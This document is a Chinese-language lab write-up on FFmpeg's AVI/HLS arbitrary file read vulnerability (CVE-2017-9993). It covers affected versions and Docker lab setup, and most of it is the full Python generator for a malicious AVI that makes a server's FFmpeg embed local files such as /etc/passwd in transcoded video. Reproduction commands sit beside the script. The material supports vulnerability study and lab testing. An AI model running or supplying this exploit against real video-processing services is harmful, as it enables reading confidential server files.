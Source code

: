 # FFmpeg AVI 任意文件读取漏洞 CVE-2017-9993

## 漏洞描述

FFmpeg 是一个开源的跨平台多媒体框架，提供了处理视频、音频和多媒体文件的功能。

FFmpeg 2.4.14, 2.8.12, 3.0.9, 3.1.9, 3.2.6, 3.3.2 版本之前，未正确限制 HTTP Live Streaming 文件名扩展和解复用器名称，允许攻击者通过精心构造的视频文件来读取服务器上的任意文件。

这个漏洞首次在 PHDays 2017 会议中被提出，它实际上是 [CVE-2016-1897](https://github.com/vulhub/vulhub/blob/aeca367da2660752cf745ed29e00ff0e1d21f720/ffmpeg/CVE-2016-1897) 的不完整修复导致的。FFmpeg 官方修复了 m3u 播放列表中的文件读取和 SSRF 漏洞，但攻击者通过构造恶意的 AVI 文件，类似的漏洞仍然存在于其播放列表中，这导致了 CVE-2017-9993。

参考链接：

- https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/
- https://github.com/neex/ffmpeg-avi-m3u-xbin
- https://www.anquanke.com/post/id/86337
- https://git.ffmpeg.org/gitweb/ffmpeg.git/patch/189ff4219644532bdfa7bab28dfedaee4d6d4021?hp=c0702ab8301844c1eb11dedb78a0bce79693dec7

## 环境搭建

Vulhub 执行如下命令启动一个包含了 FFmpeg 3.2.4 的环境：

```
docker compose up -d
```

环境启动后将监听 8080 端口，访问 `http://your-ip:8080/` 即可查看应用，应用是一个简单的视频播放器，允许用户上传和播放视频。

![](images/FFmpeg%20AVI%20任意文件读取漏洞%20CVE-2017-9993/image-20250311104054722.png)

## 漏洞复现

首先，下载漏洞利用工具并生成恶意 payload：

```shell
# 克隆漏洞利用仓库
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# 生成payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

在 `http://your-ip:8080/` 上传生成的 `exp.avi` 文件。后端将使用 FFmpeg 对上传的视频进行转码，在转码过程中，由于 FFmpeg 的任意文件读取漏洞，文件内容将被嵌入到转码后的视频中：

![](images/FFmpeg%20AVI%20任意文件读取漏洞%20CVE-2017-9993/image-20250311105109128.png)

## 漏洞 POC

生成 `file_read.avi`:

```
python gen_xbin_avi.py file://<filename> file_read.avi
```

上传或在服务器端测试：

```
ffmpeg -i file_read.avi output.mp4
```

`gen_xbin_avi.py`

```python
#!/usr/bin/env python3
import struct
import argparse
import random
import string

AVI_HEADER = b"RIFF\x00\x00\x00\x00AVI LIST\x14\x01\x00\x00hdrlavih8\x00\x00\x00@\x9c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00}\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LISTt\x00\x00\x00strlstrh8\x00\x00\x00txts\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00}\x00\x00\x00\x86\x03\x00\x00\x10'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\xa0\x00strf(\x00\x00\x00(\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x01\x00\x18\x00XVID\x00H\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LIST    movi"

ECHO_TEMPLATE = """### echoing {needed!r}
#EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x{iv}
#EXTINF:1,
#EXT-X-BYTERANGE: 16
/dev/zero
#EXT-X-KEY: METHOD=NONE
"""

# AES.new('\x00'*16).decrypt('\x00'*16)
GAMMA = b'\x14\x0f\x0f\x10\x11\xb5"=yXw\x17\xff\xd9\xec:'

FULL_PLAYLIST = """#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
{content}
#### random string to prevent caching: {rand}
#EXT-X-ENDLIST"""

EXTERNAL_REFERENCE_PLAYLIST = """

####  External reference: reading {size} bytes from {filename} (offset {offset})
#EXTINF:1,
#EXT-X-BYTERANGE: {size}@{offset}
{filename}

"""

XBIN_HEADER = b'XBIN\x1A\x20\x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'

def echo_block(block):
    assert len(block) == 16
    iv = ''.join(map('{:02x}'.format, [x ^ y for (x, y) in zip(block, GAMMA)]))
    return ECHO_TEMPLATE.format(needed=block, iv=iv)

def gen_xbin_sync():
    seq = []
    for i in range(60):
        if i % 2:
            seq.append(0)
        else:
            seq.append(128 + 64 - i - 1)
    for i in range(4, 0, -1):
        seq.append(128 + i - 1)
    seq.append(0)
    seq.append(0)
    for i in range(12, 0, -1):
        seq.append(128 + i - 1)
    seq.append(0)
    seq.append(0)
    return seq

def test_xbin_sync(seq):
    for start_ind in range(64):
        path = [start_ind]
        cur_ind = start_ind
        while cur_ind < len(seq):
            if seq[cur_ind] == 0:
                cur_ind += 3
            else:
                assert seq[cur_ind] & (64 + 128) == 128
                cur_ind += (seq[cur_ind] & 63) + 3
            path.append(cur_ind)
        assert cur_ind == len(seq), "problem for path {}".format(path)

def echo_seq(s):
    assert len(s) % 16 == 0
    res = []
    for i in range(0, len(s), 16):
        res.append(echo_block(s[i:i + 16]))
    return ''.join(res)

test_xbin_sync(gen_xbin_sync())

SYNC = echo_seq(gen_xbin_sync())

def make_playlist_avi(playlist, fake_packets=1000, fake_packet_len=3):
    content = b'GAB2\x00\x02\x00' + b'\x00' * 10 + playlist.encode('ascii')
    packet = b'00tx' + struct.pack('<I', len(content)) + content
    dcpkt = b'00dc' + struct.pack('<I',
                                  fake_packet_len) + b'\x00' * fake_packet_len
    return AVI_HEADER + packet + dcpkt * fake_packets

def gen_xbin_packet_header(size):
    return bytes([0] * 9 + [1] + [0] * 4 + [128 + size - 1, 10])

def gen_xbin_packet_playlist(filename, offset, packet_size):
    result = []
    while packet_size > 0:
        packet_size -= 16
        assert packet_size > 0
        part_size = min(packet_size, 64)
        packet_size -= part_size
        result.append(echo_block(gen_xbin_packet_header(part_size)))
        result.append(
            EXTERNAL_REFERENCE_PLAYLIST.format(
                size=part_size,
                offset=offset,
                filename=filename))
        offset += part_size
    return ''.join(result), offset

def gen_xbin_playlist(filename_to_read):
    pls = [echo_block(XBIN_HEADER)]
    next_delta = 5
    for max_offs, filename in (
            (5000, filename_to_read), (500, "file:///dev/zero")):
        offset = 0
        while offset < max_offs:
            for _ in range(10):
                pls_part, new_offset = gen_xbin_packet_playlist(
                    filename, offset, 0xf0 - next_delta)
                pls.append(pls_part)
                next_delta = 0
            offset = new_offset
        pls.append(SYNC)
    return FULL_PLAYLIST.format(content=''.join(pls), rand=''.join(
        random.choice(string.ascii_lowercase) for i in range(30)))

if __name__ == "__main__":
    parser = argparse.ArgumentParser('AVI+M3U+XBIN ffmpeg exploit generator')
    parser.add_argument(
        'filename',
        help='filename to be read from the server (prefix it with "file://")')
    parser.add_argument('output_avi', help='where to save the avi')
    args = parser.parse_args()
    assert '://' in args.filename, "ffmpeg needs explicit proto (forgot file://?)"
    content = gen_xbin_playlist(args.filename)
    avi = make_playlist_avi(content)
    output_name = args.output_avi

    with open(output_name, 'wb') as f:
        f.write(avi)
```

## 漏洞修复

升级至安全版本。
